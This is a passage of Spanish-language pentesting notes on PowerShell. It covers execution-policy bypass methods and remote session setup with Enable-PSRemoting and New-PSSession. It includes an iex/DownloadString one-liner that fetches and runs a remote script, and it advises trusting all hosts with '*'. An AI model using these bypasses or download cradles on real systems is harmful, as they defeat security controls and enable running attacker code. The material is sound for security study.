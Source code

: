 6. Se puede utilizar el flag Execution-Policy. La sintaxis para ejecutar la instruccion seria la siguiente: ``PowerShell --ExecutionPolicy Bypass -File <script>`` Se puede utilizar el argumento ``-ExecutionPolicy`` para indicar la politica que se quiere utilizar, siendo Bypass una politica especial para este tupo de caos.

7. Descargar el contenido del script y ejecutarlo invocando a PowerShell. El ejemplo de esta via seria: ``PowerShell -noprofile -c "iex(New-Object Net.WebClient).DownloadString('direccionURL')"``

Como se puede ver algunas de los bypass son obvios, pero muy efectivos cuando el pentester tiene una politica que le bloquea.

Disponer de acceso local permite que el usuario pueda utilizar cualquiera de estos metodos para conseuir saltarse una politica que le restrinja. Si el acceso es remoto, se pueden utilizar algunas como por ejemplo la septima opcion para descargar el contenido.

## La ejecucion remota y como comunicarse:
Administrar sistemas requiere poder consultar y ejecutar tareas sobre maquinas y recursos con ubicaciones remotas dentro del entorno empresarial. La linea de comandos de PowerShell proporciona la posibilidad de llevar a cabo esta gestion gracias a .NET Framework.

## Creacion y configuracion de una sesion remota:
Existen gran cantidad de cmdlets en PowerShell que permiten ejecutar instrucciones remotas. Por ejemplo, para listar los servicios de una maquina remota: ``Get-Service -ComputerName <nombreMaquina> -Name EFS``

Las sesiones remotas pueden ser creadas tras habilitar Windows Remote Management. Oara llevar a cabo esta accion se usaria: ``Enable-PSRemoting``

La conexion de red debe estar en un perfil de dominio o privado, pero nunca publico.

Otro error muy comun es que el host al que el usuario quiera conectarse no sea de confianza y para solucionar eso se ha de añadir al archivo de equipos de confianza los equipos que se quieren administrar. Si se añade un *, todos seran de confianza.

Una vez se dispone del entorno preparado para crear las sesiones remotas, pero esta funcion se dispone de: ``New-PSSession``

| Parametro | Descripcion |
| --------- | ----------- |
| Credential | Se especifica con que usuario y credenciales se quiere iniciar sesion |
| Port | Indica el puerto al que se conectara PowerShell, por defecto es puerto 80 |
| ComputerName | Crea una conexion con la maquina que se especifica, la sesion es persistente	|
| UseSSL | Utiliza el protocolo SSL para establecer la conexion, por defecto, no se usa SSL |

Para crear la sesion como el usuario con el que se esta logueado en el sistema local hay qie ejecutar: ``New-PSSesion -ComputerName <NombreMaquina>``

En cualquier instante, puede ser necesario que el usuario disponga de un sesion con otro usuario conocido en la maquina remota.

Por esta razon, se debe ejecutar la siguiente instruccion: ``$cred = get-credential; new-PSSession -ComputerName <nombreMaquina> -Credential $cred``.
	